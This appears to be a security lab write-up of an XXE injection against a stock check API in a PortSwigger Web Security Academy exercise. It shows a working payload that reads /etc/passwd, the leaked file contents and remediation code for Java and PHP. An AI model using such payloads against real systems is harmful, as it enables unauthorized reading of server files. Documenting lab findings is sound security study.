

# XML External Entity (XXE) Injection – Local File Disclosure

## Vulnerability Overview

An **XML External Entity (XXE) injection** vulnerability was identified in the stock check functionality of the target application. The application parses user-supplied XML input without disabling external entity processing, allowing an attacker to read arbitrary files from the server's filesystem. Successful exploitation resulted in the disclosure of the `/etc/passwd` file.

**Severity:** High  
**CWE:** CWE-611 – Improper Restriction of XML External Entity Reference  
**OWASP Top 10:** A03:2021 – Injection  

---

## Technical Details

### Vulnerable Endpoint

- **Endpoint:** Stock Check API (POST request)
- **Content-Type:** `application/xml`
- **Description:** Accepts XML input containing a `productId` to query stock availability.

### Initial Request (Legitimate)

Intercepting the stock check request revealed the following XML structure:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>4</productId>
</stockCheck>
```
### Exploitation – XXE Payload

I crafted a malicious XML payload that defines an external entity referencing a local file on the server:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```

**Payload Breakdown:**
- `<!DOCTYPE test>` – Introduces a custom Document Type Definition
- `<!ENTITY xxe SYSTEM "file:///etc/passwd">` – Defines an external entity named `xxe` that loads the contents of `/etc/passwd`
- `&xxe;` – References the entity within the `productId` element, causing the parser to include the file contents

### Server Response

The application responded with:

```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

The server processed the external entity and returned the contents of `/etc/passwd`, confirming successful local file disclosure.

> **[Screenshot 1: Burp Suite response showing the /etc/passwd file contents in the error message]**
  

---

## Impact

This vulnerability enables an attacker to:

- **Read Sensitive System Files:** `/etc/passwd`, `/etc/shadow` (if permissions allow), application configuration files, and source code
- **Information Disclosure:** Exposed file contents can reveal usernames, system paths, internal IP addresses, and secrets
- **Pivot to Further Attacks:** In some cases, XXE can be escalated to Server-Side Request Forgery (SSRF), denial of service (Billion Laughs attack), or even remote code execution

---

## Remediation Recommendations

1. **Disable External Entities** – Configure the XML parser to disable Document Type Definitions (DTDs) and external entity resolution:

   **Java (DocumentBuilderFactory):**
   ```java
   dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
   dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
   dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
   ```

   **PHP (libxml):**
   ```php
   libxml_disable_entity_loader(true);
   ```

2. **Use JSON Instead of XML** – If possible, migrate API endpoints to accept JSON, which does not have entity processing capabilities.

3. **Validate and Sanitize Input** – Implement server-side input validation against a strict schema.

4. **Update Libraries** – Ensure XML parsing libraries are up-to-date and patched against known XXE vulnerabilities.

5. **Least Privilege** – Run the application with minimal file system permissions to limit exposure if exploitation occurs.

---

*This vulnerability was identified and exploited in a controlled lab environment provided by PortSwigger Web Security Academy as part of ongoing web application security research.*
